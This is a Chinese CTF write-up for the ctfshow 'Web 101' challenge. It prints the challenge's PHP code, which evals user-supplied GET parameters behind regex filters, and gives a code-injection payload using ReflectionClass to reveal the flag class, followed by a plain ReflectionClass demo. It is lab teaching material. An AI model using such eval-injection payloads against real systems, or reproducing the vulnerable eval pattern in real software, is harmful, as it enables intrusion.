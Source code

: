 利用反射类，`Relectionclass()`函数，作用：根据类名反射一个类。在代码执行时，加入输入一个A，但是在逻辑判断之后，生成了一个B类，所以这时，用Relectionclass("A")来限定生成A类。

```php
// （Web 101）

<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1 = $_GET['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v0 = is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if ($v0) {
    if (!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)) {
        if (!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)) {
            eval("$v2('ctfshow')$v3");
        }
    }
}
?>
```

**payload：**`?v1=1&v2=echo new ReflectionClass&v3=;`

反射类可以说成是类的一个映射，可以利用反射类来代替有关类的应用的任何语句

其属性为类的一个名称，这道题目里面类的名称为ctfshow

**举例：**

```php
<?php
class hacker
{
    public $hackername = "yn8rt";
    const  yn8rt = 'nb666';
    public  function show()
    {
        echo $this->name, '<br>';
    }
}
//有这么一个hacker类，假设我们不知道这个类是干什么用的，我们需要知道类里面的信息，这时候就需要用到ReflectionClass来对类进行反射
//现在我可以通过反射来获取这个类中的方法，属性，常量

//通过反射获取类的信息

$reflection = new ReflectionClass('hacker'); //实例化反射对象,映射hacker类的信息
$consts = $reflection->getConstants(); //获取所有常量
$props = $reflection->getProperties(); //获取所有属性
$methods = $reflection->getMethods(); //获取所有方法
var_dump($consts);
var_dump($props);
var_dump($methods);

?>
```
